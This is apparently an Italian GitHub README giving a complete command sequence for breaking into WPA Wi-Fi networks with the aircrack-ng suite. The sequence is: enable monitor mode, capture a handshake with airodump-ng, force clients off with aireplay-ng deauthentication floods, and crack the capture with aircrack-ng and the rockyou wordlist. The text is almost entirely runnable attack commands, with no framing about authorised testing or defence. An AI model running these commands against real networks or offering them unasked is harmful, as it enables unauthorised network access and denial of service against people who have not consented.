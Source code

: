 # Wi-Fi-
Visualizza scheda di rete 
```
ifconfig
```
oppure
```
ip a
```
avvia scheda di rete in monitor mode
```
sudo airmon-ng start wlan0
```
esempio:
erpressa@kali:~# sudo airmon-ng start wlan0
avvia airodump-ng 
```
sudo airodump-ng wlan0mon 
```
copiare bssid e station
premi spazio oppure ctrl + c per terminare 
```

sudo airodump-ng --bssid FF:FF:FF:FF:FF:FF -c 1 -w /home/kali/handshake.cap wlan0mon
```
esempio
```
sudo airodump-ng --<BSSID> -c <CANALE> -w <PERCORSO-FILE> <INTERFACCIA> 
```

scollegare clients a=bssid c=clients
```
sudo aireplay-ng -0 10 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon

```
oppure 
```
sudo aireplay-ng --deauth 1000 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
cracking con aircrack-ng 
```
sudo aircrack-ng file.cap -w /home/kali/rockyou.txt
```
